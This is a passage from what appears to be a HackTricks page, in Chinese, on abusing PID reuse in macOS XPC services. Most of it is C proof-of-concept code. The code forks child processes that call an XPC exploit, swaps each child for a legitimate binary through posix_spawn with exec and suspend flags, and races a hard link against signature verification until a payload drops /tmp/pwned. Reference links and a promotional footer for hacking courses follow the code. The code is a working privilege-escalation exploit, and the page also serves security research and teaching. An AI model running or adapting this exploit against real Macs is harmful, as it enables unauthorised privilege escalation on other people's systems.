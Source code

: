 // Change current process to the legit binary suspended char target\_binary\[] = kValid; char \*target\_argv\[] = {target\_binary, NULL}; posix\_spawnattr\_t attr; posix\_spawnattr\_init(\&attr); short flags; posix\_spawnattr\_getflags(\&attr, \&flags); flags |= (POSIX\_SPAWN\_SETEXEC | POSIX\_SPAWN\_START\_SUSPENDED); posix\_spawnattr\_setflags(\&attr, flags); posix\_spawn(NULL, target\_binary, NULL, \&attr, target\_argv, environ); }

/\*\*

* Function to perform the PID race condition using children calling the XPC exploit. \*/ void xpc\_pid\_rc\_abuse() { #define RACE\_COUNT 1 extern char \*\*environ; int pids\[RACE\_COUNT];

// Fork child processes to exploit for (int i = 0; i < RACE\_COUNT; i++) { int pid = fork(); if (pid == 0) { // If a child process child\_xpc\_pid\_rc\_abuse(); } printf("forked %d\n", pid); pids\[i] = pid; }

// Wait for children to finish their tasks sleep(3);

// Terminate child processes for (int i = 0; i < RACE\_COUNT; i++) { if (pids\[i]) { kill(pids\[i], 9); } } }

int main(int argc, const char \* argv\[]) { // Create and set execution rights to 'hard\_link' file system("touch hard\_link"); system("chmod +x hard\_link");

// Create thread to exploit sign verification RC pthread\_t thread; pthread\_create(\&thread, NULL, check\_race, NULL);

while(!pwned) { // Try creating 'download' directory, ignore errors system("mkdir download 2>/dev/null");

// Create a hardlink // TODO: CHANGE NAME OF FILE FOR SIGN VERIF RC system("ln hard\_link download/legit\_bin");

xpc\_pid\_rc\_abuse(); usleep(10000);

// The payload will generate this file if exploitation is successfull if (access("/tmp/pwned", F\_OK ) == 0) { pwned = true; } }

return 0; }

```
## 其他示例

* [https://gergelykalman.com/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html](https://gergelykalman.com/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html)

## 参考资料

* [https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/](https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/)
* [https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf](https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS Family**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

```
